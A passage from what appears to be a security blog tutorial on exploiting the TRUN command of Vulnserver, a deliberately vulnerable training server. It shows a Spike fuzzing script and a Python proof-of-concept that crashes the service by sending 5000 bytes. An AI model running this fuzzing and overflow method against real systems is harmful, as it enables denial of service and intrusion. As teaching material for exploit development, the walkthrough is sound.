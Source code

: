 <div class="imgblock">

![trun](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/trun1_ovjdbi.webp)

</div>

For that, we issue the `TRUN` command with a single parameter and check
the answer.

## Fuzzing Vulnserver

Now that we know that the `TRUN` command receives a single parameter, we
can start fuzzing it.

For that, we’ll be using
[Spike](https://github.com/guilhermeferreira/spikepp/), a protocol
fuzzer. More info on `Spike` can be found
[here](https://resources.infosecinstitute.com/intro-to-fuzzing/).

As we determined before, `TRUN` takes a single parameter. Having noted
that, we can create the `Spike` script as simple as:

**trun.spk.**

``` c
s_string("TRUN ");
s_string_variable("*");
```

Notice that we are using two different `Spike` commands. The `s_string`
command will send an immutable string to the fuzzed protocol and
`s_string_variable` tells `Spike` to mutate that string.

Now we can send the fuzz attack to the victim machine:

<div class="imgblock">

![Running spike](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331207/blog/vulnserver-trun/trun2_x0dg8a.webp)

</div>

Look at that: After only 3 iterations, `vulnserver.exe` stopped working,
and it seems that it happened when we sent 5000 bytes of data. We can
see this in `Wireshark`:

<div class="imgblock">

![Wireshark capture](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331212/blog/vulnserver-trun/trun3_esxmlu.webp)

</div>

With that, we can start replicating the crash. For that, we create the
first `PoC` (Proof-of-Concept) file:

**exploit.py.**

``` python
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
